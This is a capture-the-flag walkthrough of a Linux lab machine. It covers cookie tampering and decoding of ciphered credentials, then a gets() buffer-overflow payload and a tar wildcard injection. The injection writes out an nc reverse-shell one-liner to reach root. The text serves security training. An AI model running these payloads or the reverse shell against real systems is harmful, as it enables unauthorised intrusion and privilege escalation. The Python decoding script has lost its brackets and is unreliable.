nmap:
sudo nmap -sS -sC -sV -v <MACHINE_IP>
-Pn: Disables host discovery.
-sV: Performs version detection for the services.
-sC: Performs a script scan using default scripts available in NMAP.
-v: Provides verbose details about the NMAP scan
results:
the scan found two open posts
port 80(http) and
port 22(ssh)
I decided to check the website hosted on port 80, I found the home page and a page called
operatives i found a list of what appear to be usernames (
sp00ky help in room creation)

i found "/zYdHuAKjP" in nmap results

when i open it on port 80 i found this page that has access denied

Using the developer tools in firefox, I was able to find a cookie called
access which has it’s value set to denied

I changed this value to granted, and then reloaded the page. This worked and I
was presented with a new message on the web page.

It looks like there is some kind of cipher encrypted message on the page which
looks like possible credentials (i.e. username::password). After spending some
time on trying to decipher the message, I decided to look at the hint
Hint: You’re going to want to write a
Python script for this. ‘zA’ = ‘a’
According to the hint, “zA = a”. After a brain storming, I realized that if
you change the letters to their ordered numerical position in the alphabet and
added them together, then you would get a new value which would represent the
ordered numerical position of another letter in the alphabet. The examples
below shows this.
example 1
'z' = 26 # 26th letter in the alphabet
'A' = 1 # 1st letter in the alphabet(26 + 1) % 26 = 1 = 'a'
example 2
'h' = 8
'E' = 5(8 + 5) % 26 = 13 = 'm'
N.B. Mod (i.e. '%') 26 is used since there are only 26 letters in the alphabet.
script
It is possible to perform these calculations manually but I decided to write a
simple python script to do it with the help of some online sources
def decipheringstr:
list1 =
a =
for i in str:
list1.appendordi & 31
res =
for ele in range0, lenlist1, 2:
res.appendlist1ele + list1ele + 1 % 26
for i in rangelenres:
tmp = chrresi + 64.lower
printtmp, end=
username =
decipheringusername
print, end=
password =
decipheringpassword
Running this script gives me a username and password. If I look at the list of
operatives seen earlier when examining the website, I can also see that the
username is present in the list

Using these credentials, I can SSH into the target machine and retrieve the
first user flag.
I found a binary executable called “hacktheworld” and a text
file called “note_from_spooky.txt” in the
magna user’s home directory. The text file contains the
message seen in the image below.

I decided to use scp to copy the file to my local machine for further
analysis.
scp magna@10.10.77.16:/home/magna/hcktheworld
Using Ghidra, I started examining the binary by looking at it’s main function.
The code creates a char buffer of 64 bytes in size. The program then uses the
function “gets()” to take my input. This vulnerable C function can be
exploited to cause a buffer overflow.

I found a second function called “call_bash”, which is not referenced in the
main function. This function prints several messages before using the function
“setuid()” to set the effective user ID of the calling process. A new shell is
then created under the set user ID.

I can exploit the vulnerable C function “gets()” to cause a buffer overflow
and overwrite the return address on the stack with the address of the
“call_bash” function. To find the size of the buffer and how many “A” I would
need to overwrite it, I used python to supply input and identify the exact
amount of “A” that would cause the program to crash. This involves some trial
and error.

I found supplying 72 “A” would cause the segmentation fault to occur and
anything less would not result in the program crashing. Next, I used “readelf”
and “grep” to find the memory address of the “call_bash” function.
readelf -s hacktheworld | grep -i "call_bash"
This provided the following address seen below for the function “call_bash”.

I can now attach this memory address in hex format, while still keeping the
endianness of the function written in memory, to the end of my 72 “A”
python2 :
python2 -c 'print "A"*72 + b"\x58\x06\x40\x00\x00\x00\x00\x00"' | ./hacketheworld
python3 :
python3 -c 'print("A"*72 + "\x58\x06\x40\x00\x00\x00\x00\x00")' | ./hacketheworld
This works and I have escalated my privileges successfully to the user spooky.

I use python to import the pty module and create a fully interactive TTY shell
as seen below.
python -c 'import pty; pty.spawn("/bin/sh")'
After this, I navigate to the user spooky’s home directory and get the second
user flag.
Now that I have both user flags, I started looking for anyway to escalate my
privileges to root. While looking for privilege escalation exploits, I decided
to check if there were any interesting cronjobs running.

I saw an interesting cronjob being ran by the user root. This cronjob executes
a series of commands which archives all the files located in the user spooky’s
home directory into a tar file. After searching for a way to escalate my
privileges using a tar file, I came across an article called “Exploiting
Wildcard for Privilege Escalation” (see references). In this article, I
discovered how I could escalate my privileges using a Tar Wildcard Injection
by entering the following commands.
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 >/tmp/f" > shell.sh
echo ""> "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
Next, I setup a netcat listener on my host device for any incoming connections
on port 4444.
nc -lvnp 4444
After a few minutes, I get a reverse shell with root privileges. I can then
change to the root directory and get the final root user flag
